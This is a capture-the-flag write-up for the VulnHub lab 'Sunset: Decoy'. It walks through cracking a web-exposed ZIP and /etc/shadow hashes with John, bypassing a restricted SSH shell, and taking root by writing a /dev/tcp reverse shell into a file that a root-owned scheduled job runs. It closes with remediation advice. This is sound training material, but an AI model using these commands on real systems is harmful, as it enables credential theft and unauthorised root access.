




# Sunset: Decoy — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.x.x (DHCP — discover with netdiscover) |
| **Difficulty** | Medium |
| **OS** | Linux |
| **Goal** | root flag |
| **Source** | [HackingArticles](https://www.hackingarticles.in/sunset-decoy-vulnhub-walkthrough/) |

## Attack Summary

Sunset: Decoy chains several low-tech but effective techniques: a password-protected ZIP backup file exposes `/etc/shadow`, allowing offline hash cracking via John. SSH access is restricted to a limited shell, which is escaped with a bash flag. Root is obtained by exploiting a scheduled root-owned binary (identified via pspy) that sources a writable `update` file — a classic cron/scheduled-task hijacking primitive.

## Methodology

1. Recon — nmap full port scan
2. Enumeration — download `save.zip` from the web service
3. Exploitation — zip2john + John crack → shadow file hash crack → SSH login
4. PrivEsc — pspy reveals scheduled binary; plant reverse shell in `update` file

---

## Step 1: Reconnaissance

```bash
netdiscover -r <subnet>/24
# Add target to /etc/hosts for convenience
nmap -sV -sC -p- <TARGET_IP>
```



Key findings: web service on port 80 (and/or 443), SSH on port 22.

---

## Step 2: Web Enumeration and ZIP Download

Browse to the web service. Locate and download `save.zip`:

```bash
wget http://<TARGET_IP>/save.zip
```

The archive is password-protected.

---

## Step 3: Cracking the ZIP and Extracting the Shadow File

Extract the ZIP hash and crack it:

```bash
zip2john save.zip > zip.hash
john --wordlist=/usr/share/wordlists/rockyou.txt zip.hash
# Recovered password: manual
```



Unzip with the recovered password:

```bash
unzip save.zip
# Extracts backup copies of system files including etc/shadow
```

Copy the shadow hashes and crack them:

```bash
grep -v '!!\|*' etc/shadow | grep ':$' > users.hash
john --wordlist=/usr/share/wordlists/rockyou.txt users.hash
```



Note the cracked username and password for SSH access.

---

## Step 4: SSH Access and Restricted Shell Escape

The target user's shell is restricted. Bypass it by passing `bash --noprofile` as the forced command:

```bash
ssh -t <user>@<TARGET_IP> "bash --noprofile"
```

Read the user flag once inside:

```bash
cat user.txt
```

---

## Step 5: Privilege Escalation — Scheduled Task Hijacking

Run the `honeypot.decoy` binary and select option 5 (which triggers a scheduled root process):

```bash
./honeypot.decoy
# Select option 5
```

Monitor processes with pspy to identify the root-owned scheduled binary:

```bash
./pspy64
# Observe: root executes a binary every ~60 seconds that sources ./update
```



The scheduled binary corresponds to a known vulnerable utility (EDB-33899). Create a malicious `update` file with a reverse shell payload and start a listener:

```bash
# On attacker machine
nc -lvnp 4444

# On target — create the update file in the directory the scheduler runs from
cat > update << 'EOF'
#!/bin/bash
bash -i >& /dev/tcp/<LHOST>/4444 0>&1
EOF
chmod +x update
```

Wait up to 60 seconds for the scheduler to fire. The listener receives a root shell.

Read the root flag:

```bash
cat /root/root.txt
```


---

## Lessons Learned

- Backup archives should never include sensitive files such as `/etc/shadow`; if backups are web-accessible, they must be encrypted and access-controlled.
- Password-protected ZIPs are not security controls — offline cracking with rockyou takes seconds for common passwords.
- Restricted shells (rbash, lshell) are easily bypassed by passing an alternative shell via SSH's `-t` and forced-command options.
- Scheduled root jobs that source or execute files from user-writable directories are a textbook privilege-escalation vector.
- pspy is invaluable for detecting scheduled tasks without needing root access to read cron configurations.

---

## Remediation

| Vulnerability | Fix |
|---|---|
| /etc/shadow in web-accessible backup | Never include shadow/passwd in backups; store backups off-site with encryption |
| Weak ZIP password | Use strong, unique passwords; consider GPG encryption for sensitive archives |
| Restricted shell bypass | Use proper chroot jails or containerisation instead of restricted shells |
| Scheduled root job reading writable file | Ensure all files sourced by root-owned scripts are owned by root and not world-writable |
| Known vulnerable utility (EDB-33899) | Patch or replace the affected binary; review all SUID/scheduled executables |
